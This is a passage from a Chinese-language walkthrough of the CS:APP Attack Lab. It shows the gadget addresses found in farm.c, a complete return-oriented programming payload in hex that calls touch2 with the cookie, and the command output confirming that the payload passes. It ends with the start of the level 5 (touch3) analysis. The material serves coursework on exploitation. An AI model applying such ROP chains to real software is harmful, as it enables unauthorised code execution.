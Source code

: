 调用的地址为 `0x4019ab`

接着将rax赋值给rdi,即寻找 `48 89 c7`

```txt
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
```

调用的地址为 `0x4019a2`

最后再返回到 `touch2` 的地址 `0x4017ec` 即可

整个调用过程如下图

![20221110235850](https://raw.githubusercontent.com/learner-lu/picbed/master/20221110235850.png)

所以答案为

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

```bash
root@da1811a84ddc:~/csapp/03Attack Lab/target1# ./hex2raw  < 4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

### Level5

最后一关是去调用 `touch3`, 并且传入一个参数rdi是cookie的字符串的首地址

那么我们可以分析一下,这个字符串一定是保存在栈中的,也就是整个栈的最上面.那么我们需要在某一个时刻获取rsp,然后利用rsp+bias获取到起始地址,并且将这个地址赋给rdi即可

非常幸运的是我们可以在 `farm.c` 中找到这样一个函数

```c
long add_xy(long x, long y)
{
    return x+y;
}
```
